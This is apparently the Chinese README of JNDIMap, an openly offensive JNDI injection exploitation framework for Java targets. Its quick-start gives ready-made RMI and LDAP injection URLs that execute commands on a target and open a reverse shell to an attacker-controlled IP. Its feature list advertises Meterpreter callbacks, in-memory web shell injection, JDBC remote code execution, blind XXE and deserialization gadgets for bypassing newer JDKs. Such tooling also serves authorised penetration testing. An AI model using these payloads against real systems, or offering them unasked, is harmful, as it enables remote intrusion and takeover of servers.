 <div align="center">
    <img src="img/logo.png" width="128" />
    <h1 align="center">JNDIMap</h1>
</div>

<p align="center">
<img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/X1r0z/JNDIMap">
<img alt="GitHub forks" src="https://img.shields.io/github/forks/X1r0z/JNDIMap">
<img alt="Static Badge" src="https://img.shields.io/badge/Java-8-blue">
<img alt="GitHub Downloads (all assets, all releases)" src="https://img.shields.io/github/downloads/X1r0z/JNDIMap/total">
<img alt="GitHub Release" src="https://img.shields.io/github/v/release/X1r0z/JNDIMap">
<img alt="GitHub License" src="https://img.shields.io/github/license/X1r0z/JNDIMap">

<p align="center">
JNDIMap 是一个强大的 JNDI 注入利用框架, 支持 RMI、LDAP 和 LDAPS 协议, 包含多种高版本 JDK 绕过方式
</p>
<p align="center">简体中文 | <a href="README.en.md">English</a></p>
</p>

## 🚀 快速上手

在 [Release](https://github.com/X1r0z/JNDIMap/releases) 页面下载 JNDIMap, 运行时传入 `-i` 参数指定外部 IP

```bash
java -jar JNDIMap-version.jar -i 10.0.0.1
```

在目标机器上执行命令或反弹 Shell

```bash
rmi://10.0.0.1:1099/Basic/Command/open -a Calculator
ldap://10.0.0.1:1389/Basic/ReverseShell/10.0.0.1/1337
```

## 🚩 功能特性

- DNSLog
- 命令执行
- 反弹 Shell
- Meterpreter 上线
- 加载自定义 Java 字节码
- 内存马注入 (基于 [MemShellParty](https://github.com/ReaJason/MemShellParty))
- 高版本 JDK 绕过
  - BeanFactory 绕过 (Tomcat/Groovy/XStream, etc.)
  - JDBC RCE (MySQL/PostgreSQL/H2/Derby)
  - Tomcat Blind XXE
- LDAP 反序列化 (包含常用 Gadget)
- Nashorn JS 自定义 Payload

## 📖 使用指南

> 完整文档: [USAGE.md](USAGE.md)

- [Usage](USAGE.md#usage)
- [URL 格式](USAGE.md#url-格式)
- [Basic 功能](USAGE.md#basic)
- [内存马注入](USAGE.md#内存马注入)
- [BeanFactory 绕过](USAGE.md#beanfactory-绕过)
  - [Tomcat ELProcessor](USAGE.md#tomcat-elprocessor)
  - [Groovy ClassLoader/Shell](USAGE.md#groovy-classloadershell)
  - [XStream](USAGE.md#xstream)
  - [SnakeYaml](USAGE.md#snakeyaml)
  - [BeanShell](USAGE.md#beanshell)
  - [MVEL](USAGE.md#mvel)
  - [MLet](USAGE.md#mlet)
  - [NativeLibLoader](USAGE.md#nativelibloader)
- [JDBC RCE](USAGE.md#jdbc-rce)
  - [MySQL](USAGE.md#mysql)
    - [MySQL JDBC 反序列化 RCE](USAGE.md#mysql-jdbc-反序列化-rce)
    - [MySQL 客户端任意文件读取](USAGE.md#mysql-客户端任意文件读取)
  - [PostgreSQL](USAGE.md#postgresql)
  - [H2 Database](USAGE.md#h2)
  - [Apache Derby](USAGE.md#derby)
    - [Derby SQL RCE](USAGE.md#derby-sql-rce)
    - [Derby 主从复制反序列化 RCE](USAGE.md#derby-主从复制反序列化-rce)
- [Tomcat Blind XXE](USAGE.md#tomcat-blind-xxe)
- [LDAP Deserialization](USAGE.md#ldap-deserialization)
- [Script](USAGE.md#script)
- [高级技巧](USAGE.md#高级技巧)
  - [Use Reference Only](USAGE.md#use-reference-only)
  - [Confusing Class Name](USAGE.md#confusing-class-name)
  - [JShell Payload](USAGE.md#jshell-payload)

## ⚙️ 编译

[Releases](https://github.com/X1r0z/JNDIMap/releases) 的版本可能存在滞后, 推荐在使用时拉取源码自行编译 (基于 JDK 8)

```bash
git clone https://github.com/X1r0z/JNDIMap && cd JNDIMap
mvn package -Dmaven.test.skip=true
```

## 📷 参考 & 致谢

[https://tttang.com/archive/1405/](https://tttang.com/archive/1405/)

[https://paper.seebug.org/1832/](https://paper.seebug.org/1832/)

[https://xz.aliyun.com/t/12846](https://xz.aliyun.com/t/12846)

[http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce](http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce)

[https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson 与原生反序列化/](https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)

[https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson 与原生反序列化-二/](https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/)

[https://www.yulegeyu.com/2022/11/12/Java 安全攻防之老版本 Fastjson 的一些不出网利用/](https://www.yulegeyu.com/2022/11/12/Java%E5%AE%89%E5%85%A8%E6%94%BB%E9%98%B2%E4%B9%8B%E8%80%81%E7%89%88%E6%9C%ACFastjson-%E7%9A%84%E4%B8%80%E4%BA%9B%E4%B8%8D%E5%87%BA%E7%BD%91%E5%88%A9%E7%94%A8/)

[https://gv7.me/articles/2020/deserialization-of-serialvesionuid-conflicts-using-a-custom-classloader/](https://gv7.me/articles/2020/deserialization-of-serialvesionuid-conflicts-using-a-custom-classloader/)

[https://www.leavesongs.com/PENETRATION/use-tls-proxy-to-exploit-ldaps.html](https://www.leavesongs.com/PENETRATION/use-tls-proxy-to-exploit-ldaps.html)

[https://exp10it.io/2025/03/h2-rce-in-jre-17/](https://exp10it.io/2025/03/h2-rce-in-jre-17/)

[https://forum.butian.net/share/4414](https://forum.butian.net/share/4414)

[https://yzddmr6.com/posts/swinglazyvalue-in-webshell/](https://yzddmr6.com/posts/swinglazyvalue-in-webshell/)

[https://mogwailabs.de/en/blog/2024/12/jndi-mind-tricks/](https://mogwailabs.de/en/blog/2024/12/jndi-mind-tricks/)

## 🌟 Star History

<a href="https://www.star-history.com/#X1r0z/JNDIMap&Date">
 <picture>
   <source media="(prefers-color-scheme: dark)" srcset="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date&theme=dark" />
   <source media="(prefers-color-scheme: light)" srcset="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date" />
   <img alt="Star History Chart" src="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date" />
 </picture>
</a>